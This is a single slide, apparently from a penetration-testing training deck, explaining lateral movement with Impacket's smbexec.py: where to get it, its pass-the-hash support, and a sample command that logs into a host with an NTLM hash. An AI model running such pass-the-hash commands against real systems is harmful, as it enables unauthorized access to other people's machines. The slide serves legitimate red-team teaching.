

# Lateral Movement
SMBExec
Get it from:
Kali Built in /usr/share/doc/python-impacket/examples/smbexec.py
Github - as a part of impacket https://github.com/CoreSecurity/impacket/blob/master/examples/smbexec.py
Empire module powershell/lateral_movement/invoke_smbexec
CME - forced or fail through to 3rd attempt usage
Supports pass the hash

Usage:
python smbexec.py -hashes ‘FullNTLM:HashHere’ ‘Username’@IP

python smbexec.py -hashes ‘b4b9b02e6f09a9bd760f388b67351e2b:afe04867ec7a3845145579a95f72eca7’ ‘Bob’@10.10.100.112